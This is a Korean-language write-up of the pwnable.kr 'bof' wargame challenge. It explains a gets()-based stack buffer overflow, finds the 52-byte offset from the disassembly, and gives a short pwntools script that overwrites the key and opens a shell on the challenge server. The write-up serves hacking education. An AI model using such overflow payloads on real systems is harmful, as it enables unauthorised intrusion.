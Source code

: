 ![[{789FE7B2-FC75-46E0-ADCA-D5BEF6ED126F}.png]]


### Buffer Overflow
- 스택 버퍼 오버플로우
- 힙 버퍼 오버플로우



우분투에서 wget을 통해 파일을 다운받는다.
`$ wget http://pwnable.kr/bin/bof`

`http://pwnable.kr/bin/bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];    // 32바이트 크기의 배열
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
- 0xdeadbeef를 key로 함수에 전달하고, key가 0xcafebabe와 일치하면 셸을 실행함
- `gets`함수로 사용자 입력을 받아 배열 `overflowme`에 저장함
	- `gets`는 입력 길이를 검증하지 않으므로, 입력이 32바이트를 초과하면 메모리의 다른 영역을 덮어쓸 수 있음
	- 이를 통해 key 변수의 값을 변경할 수 있음


#### 풀이

key 값을 원하는 값으로 바꿔주기 위해서는 입력이 가능한 overflowme와 key 변수 간의 거리를 알아야 한다.

![[{986F88B2-A8F9-4AEB-99F2-D7655936CDB3}.png]]

- func 함수의 disassembly 코드를 보면 4번의 call이 있는데, 각각 printf(), gets(), system(), printf()를 의미한다.
	- gets의 인자로 overflowme가 들어가고, 두 번째 call 위의 lea에서 [ebp-0x2c]의 주소를 인자로 받을 수 있게 하므로 overflowme는 [ebp-0x2c]에 있다.
	- key는 0xcafebabe와 비교하기 때문에, func+40에서 [ebp+0x8] 위치에 있다.
		- breakpoint를 걸고 실행시키면 overflowme 값을 받는 것이 보인다.![[{1E6568B2-7D36-41A3-AA30-0B1B2D286B8E}.png]]

key인 [ebp+0x8]과 overflowme [ebp-0x2c]의 거리는 52바이트이다.

```python
#!/usr/bin/env python
from pwn import *
#context.log_level = 'debug'

conn = remote('pwnable.kr', 9000)
conn.sendline('A'*52+'\xbe\xba\xfe\xca')
conn.interactive()
```

`$ python3 bofPwn.py`

![[{95374845-63C2-4195-9B44-D6359AC901E0}.png]]